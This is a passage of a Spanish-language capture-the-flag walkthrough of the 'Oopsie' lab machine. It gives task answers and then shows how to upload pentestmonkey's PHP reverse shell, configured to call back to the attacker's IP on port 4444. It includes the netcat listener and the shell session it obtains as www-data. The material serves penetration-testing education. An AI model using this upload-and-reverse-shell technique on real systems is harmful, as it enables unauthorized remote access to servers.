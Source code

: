>cookie

 Task 4

What is the access ID of the admin user? 
>34322

 Task 5

On uploading a file, what directory does that file appear in on the server? 

>/uploads

Subir una PHP shell como hicimos en otros retos, no parece funcionar. Así que descargamos una reverse shell de PHP. [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

La idea es subirla al servidor y al visitar la página esta creará una conexión a nuestra máquina. PHP se ejecuta del lado del servidor así que si consigues subir un archivo .php a alguna ruta donde el servidor web tenga acceso, es posible introducir una shell, en este caso una shell que inicia la conexión hacia la máquina atacante. Configuro ```php-reverse-shell.php``` para que apunte a la ip de mi máquina y un puerto de escucha. 

``` php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.233';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Ponemos la máquina Kali en escucha en el puerto elegido (4444 en este caso).

``` shell
┌──(kali㉿kali25)-[~]
└─$ nc -lvnp 4444             
```

Subo ```php-reverse-shell.php``` través de la web y visito en el navegador la URL donde se supone que se ha subido. ```/uploads/php-reverse-shell.php ```

```The file php-reverse-shell.php has been uploaded.```

``` http://10.129.201.26/uploads/php-reverse-shell.php ```

Ahora si miramos en la consola se deberá establecer la conexión

``` shell
┌──(kali㉿kali25)-[~]
└─$ nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.10.14.233] from (UNKNOWN) [10.129.201.26] 48252
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:20:57 up  3:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
